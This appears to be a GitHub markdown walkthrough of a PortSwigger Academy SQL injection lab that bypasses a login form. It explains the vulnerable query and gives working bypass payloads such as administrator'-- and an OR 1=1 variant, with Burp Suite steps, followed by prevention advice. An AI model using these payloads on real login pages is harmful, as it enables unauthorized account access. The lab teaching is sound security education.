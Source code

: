 # 🔐 SQL Injection Lab Walkthrough: Subverting Application Logic 🛠️  
## 🧪 PortSwigger Academy Lab — Bypassing Login with SQLi

> **Lab Difficulty:** Apprentice  
> **Objective:** Log in as the `administrator` user using SQL injection.  
> **Target Vulnerability:** SQL Injection (Login Bypass)  
> **Attack Type:** Subverting application logic via SQL comment injection  


## 🎯 Overview

In this lab, we exploit a **SQL injection vulnerability** in a login form to bypass authentication and log in as the `administrator` without knowing the password 💀.

This is a classic example of how unsanitized input can be used to **subvert application logic**, allowing attackers unauthorized access.



## 🧠 Understanding the Vulnerability

The backend uses a query like this to verify login credentials:

```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

If the query returns a row → ✅ Login successful  
If not → ❌ Login failed

But what if we could manipulate the query so it always returns a result?

### 🔥 Attack Strategy:
Use an SQL comment (`--`) to **cut off** the rest of the query, skipping the password check.

Try submitting this as the username:
```text
administrator'--
```

And leave the password field blank.

The resulting query becomes:
```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

Everything after `--` is treated as a comment ➡️ The password condition is ignored!

So the query effectively becomes:
```sql
SELECT * FROM users WHERE username = 'administrator'
```

✅ If a user named `administrator` exists → Logged in!



## 🧪 Step-by-Step Exploitation Guide

### 🔹 Option 1: Using Burp Suite (Community Solution)

1. **Enable Burp Proxy** in your browser.
2. Submit any login attempt (e.g., `wiener` / `password`).
3. Intercept the request in **Burp Suite Repeater**.
4. Modify the `username` parameter to:
   ```
   administrator'--
   ```
5. Leave the `password` field blank or set it to anything.
6. Send the modified request.
7. 🎉 You should now be logged in as the `administrator`.



### 🔹 Option 2: Manual Approach (My Approach)

You tried:
```text
administrator' OR 1=1--
```

This also works because:
```sql
SELECT * FROM users WHERE username = 'administrator' OR 1=1-- AND password = ''
```

Since `1=1` is always true, it tricks the query into returning all rows where either the username is `administrator` **or** something always true happens → which means it may still return a valid user depending on the DB structure.

🧠 However, the cleaner and more reliable payload is:
```
administrator'--
```

It directly removes the password condition without relying on logic that might vary between databases.



## 🧼 Prevention: How to Fix This Vulnerability

Never trust user input! Here's how to prevent such attacks:

### ✅ Use Parameterized Queries / Prepared Statements
Always separate SQL logic from data.

#### Example (Python):
```python
cursor.execute("SELECT * FROM users WHERE username = %s AND password = %s", (username, password))
```

### ✅ Input Validation
Sanitize and validate all inputs. Reject malformed or suspicious strings like `'--`, `' OR 1=1`, etc.

### ✅ Use ORM Frameworks
Tools like SQLAlchemy, Django ORM, or Hibernate automatically handle SQL injection risks.

### ✅ Least Privilege Principle
Ensure the database user has minimal permissions — no need for admin rights in a login flow.

### ✅ Web Application Firewall (WAF)
Set up protections using tools like Cloudflare, AWS WAF, or ModSecurity to detect common SQLi patterns.



## 📚 Bonus: Try It Yourself

🔗 [PortSwigger Lab Link](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

🎯 Goal: Log in as the `administrator` user.  
💡 Tip: Try both payloads and see which one works best in different environments.



## 🧩 Interactive Challenge 🧠

Let’s test what you’ve learned!

### ❓ Question:
What does the `--` do in SQL injection?

<details>
  <summary>Click to reveal answer</summary>

  The `--` is an SQL **comment operator**. Anything after it is ignored by the database engine. In this case, it skips the password comparison entirely.
</details>


## 🏁 Conclusion

This lab demonstrates how easily **unsanitized input** can lead to **critical security flaws** like **login bypass**.

🔒 Always treat user input as untrusted.  
🛠 Always use secure coding practices.  
🕵️ Always test for SQL injection vulnerabilities.
 labs!